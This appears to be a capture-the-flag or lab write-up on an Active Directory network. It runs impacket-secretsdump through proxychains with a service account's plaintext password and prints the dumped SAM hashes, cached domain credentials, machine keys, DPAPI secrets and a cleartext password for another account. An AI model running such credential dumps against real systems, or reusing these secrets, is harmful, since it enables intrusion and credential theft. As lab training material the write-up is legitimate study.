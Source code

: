
## With svcScanning user
Service accounts have more privileges than normal domain users. With the `svcScanning` account, we can carry out further attacks such as dumping secrets from the AD machines.

### Dump hashes on the `Server1` machine

$ `proxychains -q /usr/bin/impacket-secretsdump corp.thereserve.loc/svcScanning:'Password1!'@10.200.113.31`


> [!NOTE] Server1 hashes
> Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

### Service RemoteRegistry is in stopped state

Starting service RemoteRegistry

### Target system bootKey

0x90cf5c2fdcffe9d25ff0ed9b3d14a846

### Dumping local SAM hashes 
(uid:
rid:lmhash:nthash)

<font color="#00b050">Administrator:</font>500:aad3b435b51404eeaad3b435b51404ee:e2c7044e93cf7e4d8697582207d6785c:::

<font color="#00b050">Guest:</font>501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">DefaultAccount:</font>503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

<font color="#00b050">WDAGUtilityAccount:</font>504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::

<font color="#00b050">THMSetup:</font>1008:aad3b435b51404eeaad3b435b51404ee:d37f688ca5172b5976b714a8b54b40f4:::

<font color="#00b050">HelpDesk:</font>1009:aad3b435b51404eeaad3b435b51404ee:f6ca2f672e731b37150f0c5fa8cfafff:::

<font color="#00b050">sshd:</font>1010:aad3b435b51404eeaad3b435b51404ee:48c62694fd5bbca286168e2199f9af49:::

### Dumping cached domain logon information 
(domain/username:hash)

<font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
$DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca

<font color="#00b050">CORP.THERESERVE.LOC/svcScanning</font>
$DCC2$10240#svcScanning#d53a09b9e4646451ab823c37056a0d6b

### Dumping LSA Secrets

#### $MACHINE.ACC 

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes256-cts-hmac-sha1-96:</font>491598bf647972748c617aabd5efabb08101de295064485f53617f726c5269bb

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">aes128-cts-hmac-sha1-96:</font>d57ac7c73d110a704d927db338eaebd1

<font color="#00b050">CORP\SERVER1$:</font><font color="#00b050">des-cbc-md5:</font>
76a19dbfe007292c

<font color="#00b050">CORP\SERVER1$:plain_password_hex:</font>9ef03e6264985bee7d06dc65c33ade8cc65b4dddd1153a62799828a90f7380ddb9ece90d8d33ee1a9a8ba2edbc1ece7b708dd8590a3a2b6c81c0d0f5c838cbfec92cfac5b74c56508bfdfc7b4a5679d8faf602912edae9685ee71caf29f60ad75ad7b5e7fc53beb4d55cd42284a6b4f5c834d71ce7d94aaea464f724fe6cfc0fdc4925289dcc44baf76c5f2d50a45f659b403b015f7c09e62b94425b65b9754005fd2c142130bc0ba3c837d4b660f6360312cdd6adc193eb2abe431f0fbd802164c56402edbd7718f57923ca72bf2b8114fb8a1c29ff1478876ed95fdc9032488f255bea3fb555952d49be510c36d9ba

<font color="#00b050">CORP\SERVER1$:</font>aad3b435b51404eeaad3b435b51404ee:955ca6f4b9f3b6ab69bd0b254774311f:::

### DPAPI_SYSTEM 

<font color="#00b050">dpapi_machinekey:</font>
0xb4cfb5032a98c1b279c92264915da1fd3d8b1a0d

<font color="#00b050">dpapi_userkey:</font>
0x3cddfc2ba786e51edf1c732a21ffa1f3d19aa382

### NL$KM 

 0000   8D D2 8E 67 54 58 89 B1  C9 53 B9 5B 46 A2 B3 66   ...gTX...S.[F..f
 0010   D4 3B 95 80 92 7D 67 78  B7 1D F9 2D A5 55 B7 A3   .;...}gx...-.U..
 0020   61 AA 4D 86 95 85 43 86  E3 12 9E C4 91 CF 9A 5B   a.M...C........[
 0030   D8 BB 0D AE FA D3 41 E0  D8 66 3D 19 75 A2 D1 B2   ......A..f=.u...

<font color="#00b050">NL$KM:</font>8dd28e67545889b1c953b95b46a2b366d43b9580927d6778b71df92da555b7a361aa4d8695854386e3129ec491cf9a5bd8bb0daefad341e0d8663d1975a2d1b2

### SC_SYNC 
<font color="#00b050">svcBackups@corp.thereserve.loc:</font>
q9nzssaFtGHdqUV3Qv6G

Cleaning up... 
Stopping service RemoteRegistry

### Interesting discoveries

> There are a couple of things from this output that are of most interest.

- The Administrator’s NTLM hash.
	- <font color="#00b050">CORP.THERESERVE.LOC/Administrator</font>
	- $DCC2$10240#Administrator#b08785ec00370a4f7d02ef8bd9b798ca
- The ClearText password for `svcBackups` account.
	- <font color="#00b050">svcBackups@corp.thereserve.loc:</font>
	- q9nzssaFtGHdqUV3Qv6G

## With svcBackups
Perform the same technique and dump secrets from the CORPDC machine, we will use the `svcBackups` account.

